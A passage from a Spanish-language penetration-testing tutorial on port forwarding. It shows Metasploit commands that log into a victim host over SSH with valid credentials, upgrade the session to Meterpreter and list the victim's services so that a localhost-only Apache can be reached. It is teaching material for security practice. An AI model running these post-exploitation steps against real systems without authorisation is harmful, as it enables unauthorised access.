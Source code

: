 ### Para este prueba utilizaremos dos herramientas:

* Metasploit
* SSH

El motivo de usar estas dos tecnicas es para aprender las maneras de realizar el Port Forwarding... **"si en tal situacion nos encontramos con que no podemos o no queremos ejecutar el metasploit"**

### Utilizando Metasploit

Para esta técnica necesitaremos tener credenciales validas sobre la maquina que queremos vulnerar.

Consiste en establecer una conexión segura entre un usuario de máquina victima y nuestra maquina.

En el siguiente ejemplo demostrare como alcanzar el servicio de Apache que se encuentra desplegado sobre localhost \(no se puede acceder al servicio desde otra máquina\). Selecionaremos un puerto en nuestra máquina para redirigir el tráfico. Para esta técnica deberemos tener una sesion con Meterpreter.

Para esto iniciamos el metasploit

```text
msfconsole
```

Ejecutamos los siguientes comandos:

```text
use auxiliary/scanner/ssh/ssh_login 
set rhosts <IP ADDRESS>
set username <USERNAME>
set password <PASSWORD>
exploit 
sessions -u 1 //para escalar nuestra sesion a meterpreter
sessions 2 // para interactuar con la nueva sesión que fue creada
netstat -antp //para listar los servicios activo en la máquina víctima
```

Una vez ingresado estos comandos tendremos las siguientes salidas

![](.gitbook/assets/image%20%2822%29.png)
